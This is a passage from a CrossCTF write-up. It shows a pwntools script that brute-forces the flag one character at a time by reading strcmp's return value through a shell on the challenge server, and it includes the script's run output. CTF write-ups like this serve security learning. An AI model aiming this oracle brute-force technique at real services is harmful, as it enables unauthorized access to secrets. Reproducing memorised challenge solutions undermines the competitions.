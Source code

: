 ### Modifying it to exploit the server

This is the modified script that will smartly bruteforce the flag's value based on `strcmp`'s return value. I will explain how it works at the end of the writeup. For now, let's focus more on how we got the flag ;).
```
from pwn import *


allowed = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz{}"
allowed_len = len(allowed)

MIN = 0
MAX = len(allowed)

correct_flag = "CrossCTF{"

x=0
while (True):
	r = remote('ctf.pwn.sg', 1601)
	r.recvuntil('Flag: ')
	str_to_test = correct_flag + allowed[x]
	print "Testing: " + str_to_test
	r.sendline(str_to_test)
	r.recvuntil('Shell: ')
	r.sendline('$?')
	strcmp_val_str = r.recvuntil('\n')
	print strcmp_val_str
	strcmp_val = int(strcmp_val_str[:-1])
	print "Returned: " + str(strcmp_val)
	r.close()
	if(0 < strcmp_val <= 127): #+ve means the previous character was correct
		x = (x+1) % MAX
	elif(strcmp_val > 127): #-ve means the character is not yet correct
		correct_flag += allowed[x-1]
		print "Found: " + allowed[x-1]
		x = 0
	else:
		break
		
correct_flag += allowed[x]
print "Flag: " + correct_flag
```

```
Returned: 50
[*] Closed connection to ctf.pwn.sg port 1601
[+] Opening connection to ctf.pwn.sg on port 1601: Done
Testing: CrossCTF{I_jusC
49

Returned: 49
[*] Closed connection to ctf.pwn.sg port 1601
[+] Opening connection to ctf.pwn.sg on port 1601: Done
Testing: CrossCTF{I_jusD
48

Returned: 48
[*] Closed connection to ctf.pwn.sg port 1601
[+] Opening connection to ctf.pwn.sg on port 1601: Done
Testing: CrossCTF{I_jusE

```
